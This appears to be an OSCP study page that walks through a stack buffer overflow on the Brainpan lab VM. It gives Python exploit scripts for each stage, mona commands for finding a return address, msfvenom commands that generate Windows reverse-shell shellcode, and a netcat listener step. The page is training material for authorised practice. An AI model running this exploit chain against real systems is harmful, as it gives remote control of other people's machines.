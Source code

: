 ```yaml
---
description: Buffer Overflow (PEN-200 Edit)
---
```


# OSCP BOF

- [https://www.vulnhub.com/entry/brainpan-1,51/](https://www.vulnhub.com/entry/brainpan-1,51/)

All you need to know about the BOF challenge for OSCP exam preparation.




## 1. Determine EIP Offset

Generate a unique pattern and feed it to the vulnerable application.

{% code title="bof_send_pattern.py" %}
```python
#!/usr/bin/env python3

import socket

# msf-pattern_create -l 5000
buf = b'<UNIQUE_PATTERN>'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
s.send(buf)
s.close()
```
{% endcode %}

Calculate the offset from buffer to EIP overwrite point:

```
$ msf-pattern_offset -l 5000 -q <EIP_VALUE>
[*] Exact match at offset <EIP_OFFSET>
```




## 2. Confirm BOF

Confirm that you can actually control the EIP value - if true, it will be overwritten with `d34dc0d3`.

{% code title="bof_confirm.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 16

buf = junk + eip + offset

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
s.send(buf)
s.close()
```
{% endcode %}




## 3. Enumerate the Bad Characters

Send all the possible byte values to the application. Then in the [Immunity Debugger](https://www.immunityinc.com/products/debugger/): right click on ESP -> "Follow in Dump" -> check what characters are missing or misinterpreted - they are the **bad characters** that should be excluded when generating the shellcode.

{% code title="bof_bad_chars.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4

badchars = (
    b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'
    b'\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20'
    b'\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30'
    b'\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40'
    b'\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50'
    b'\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60'
    b'\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70'
    b'\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80'
    b'\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90'
    b'\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0'
    b'\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0'
    b'\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0'
    b'\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0'
    b'\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0'
    b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0'
    b'\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
)
buf = junk + eip + offset + badchars

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
s.send(buf)
s.close()
```
{% endcode %}




## 4. Build the Exploit



### I. Find the Return Address

List all loaded modules in process memory space with [mona](https://github.com/corelan/mona):

```
!mona modules
```

Choose a module with no memory protections enabled and look for `jmp esp` instruction in that module:

```
$ msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
Or
nasm > call esp
00000000  FFD4              call esp

!mona find -s "\xff\xe4" -m "application.exe"
```

Discovered pointer is the needed value for EIP to force the execution flow into malicious shellcode.



### II. Generate a Shellcode

Build a shellcode providing bad characters set from (3):

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "\x00" -f python
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "\x00" -e x86/shikata_ga_nai -f python
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00" -e x86/shikata_ga_nai -f python
```




## 5. Exploit!

Start a netcat listener, feed the shellcode to the application and catch your shell.

{% code title="bof_exploit.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4
nops = b'\x90' * 10

buf = junk + eip + offset + nops
buf += b"<SHELLCODE>"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
s.send(buf)
s.close()
```
{% endcode %}
